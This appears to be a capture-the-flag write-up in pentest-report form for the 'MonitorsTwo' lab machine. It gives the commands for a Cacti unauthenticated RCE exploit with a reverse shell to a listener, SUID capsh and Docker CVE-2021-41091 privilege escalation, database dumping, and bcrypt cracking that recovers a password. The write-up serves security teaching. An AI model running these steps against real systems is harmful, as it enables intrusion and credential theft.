# Monitors 2

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- monitors2.htb”



Once the open ports are known, It began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS -sV -O -oN moni-tors2ServiceVersions p22,80 -Pn monitors2.htb”



### Port Scan Results



### HTTP Enumeration

The first thing done is to manually visit the web. Landing page is a login page where it is found that web server is running Cacti software version 1.2.22



With this information, I elaborate a dictionary with the default cacti directories (found on cacti github https://github.com/Cacti/cacti.git ) and run a directory scan using gobuster to find which of those pages I have access to.



Simultaneously software version vulnerabilities are search and a very interesting Un-authenticated RCE vulnerability is found (CVE 2022-46169).

## Initial Access – Unauthenticated RCE

**Vulnerability Explanation**: Cacti software version 1.2.22 is prone to an unauthenticated RCE vulnerability. The problem resides in “remote_agent.php” as it can be accessed without authen-tication and the way it checks if the remote host is authorized is by looking the entries at the “poller” table and verifying that there is a entry where the hostname is equal to the remote host-name (obtained from the IP address (previously retrieved by get_client_addr function) using gethostbyaddr function). It is possible to bypass this authentication method by using the HTTP header “Forwarded-For” and introducing the server IP address (“https://nvd.nist.gov/vuln/detail/CVE-2022-46169”). 

**Vulnerability Fix**: Update the software to version 1.2.23 or greater.

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, the steps taken were the following:

  • Download exploit PoC from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.
      
  •	Setup a listener in port 444 with “nc -lvp 444”
      
  •	Run the exploit using the command “python cactiRCE.py –url http://monitorstwo.htb --ip 10.10.14.9 --port 444”
      

    
  •	Receiving the shell in port 444.
      


**Proof of Concept Code**: no modifications were made to the original exploit PoC obtained from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.

## Docker Privilege escalation & Docker Escape.

Once a shell as www-data is obtained, it is clear that there is a docker running. It is clear because of:

      •	Existence of the files “/.docker.env” and “/entrypoint.sh”

      •	Hostname is “50bca5e748b0”

      •	We find ourselves in a restricted environment with limited commands, no “ifcon-fig”, no “ping”.
 


To escalate privileges, find command will be used to search for SUID binaries in the container.



As shown in the previous picture, capsh is found. This binary is very useful at privilege escalation stage (https://gtfobins.github.io/gtfobins/capsh/) as it is possible to spawn a privilege bash using “./capsh --gid=0 --uid=0 --".



Now that root shell is obtained inside the container, the next step is to escape outside the container to the host.

For this step, it is vital the “/entrypoint.sh” file. 



As it is shown in the highlighted area, there are cleartext credentials for MySQL user “root”. 

Trying to use mysql tool inside the container is very slow so it is decided to dump the database and to inspecting manually on the attacking machine. For this, mysqldump tool is used “mysqldump -h db -u root -p --all-databases > /tmp/dumping.sql”.



To transfer the file to the attacking machine, I simply locate the file on the web server root, make it public changing its permissions to 777 and download it with “wget http://monitorstwo.htb/dumping.sql”.

Once on the attacking machine, inspecting the contents, password hashes are found for three different users: guest, admin and marcus.





“Admin” and “Marcus” hashes are “bcrypt $2*$, Blowfish” type of hash.

Next step is to try and crack these hashes. For this, hashcat will be used and specifi-cally “.\hashcat -m 3200 -a 0 hash.txt rockyou.txt”.



As seen in Illustration 13 recovered password for user “marcus” is “funkymonkey”. Using these credentials via ssh on the host lets us escape the docker environment and access as a regular user on the host “monitorstwo”.



Once inside the host, an interesting mail file is found “/var/mail/marcus”.



Mail contains a message from the Administrator to everybody where it talks about some vulnerabilities that need to be patched in the system. Checking software ver-sions, it is possible to confirm that Docker software version is vulnerable to “CVE-2021-41091”

## Privilege Escalation – CVE-2021-41091

**Vulnerability Explanation**: There is a vulnerability in Moby Docker Engine where the data directo-ry “/var/lib/docker” contains subdirectories with insufficiently restricted permissions. As a result, an unprivileged user on the host, can traverse directory contents and execute programs. If the UID of the user on the Host, collided with the file owner or group inside the container, the unpriv-ileged user of the host could discover, read, and modify those files (https://github.com/kube-tarian/sigrun/issues/100) (https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). 
Taking into account the latter, if a binary is owned by root in the container, it will be owned also by root once accessed from outside the container. A copy of “/bin/bash” will be moved inside the container, SUID will be set to this copy by root, and then it will be accessed and executed from outside the container allowing user “marcus” to gain privileges and become root.

**Vulnerability Fix**: Update Moby to v20.10.9.

**Severity**: Medium

**Steps to reproduce the attack**:

• Identify the host path of files within the container. This can be done by extracting the “upperdir” mount option of the container mount point 
      ```
      sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
      ```
      


• Check that from the host with a non-privileged user it is possible to interact with the container file system. A file “/tmp/checking” will be created inside the container and accessed from the host via “/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/tmp/checking”





• Copy bash binary from the host to the container.





• Change the owner to root:root and set permissions to 4755 (SUID) to /tmp/bash from inside the container as root.



• Check permissions of the file from the host as “marcus”.



• Elevate privileges executing the binary with “-p” flag from outside the container.



### Post-Expoitation

**System Proof Screenshot**





      


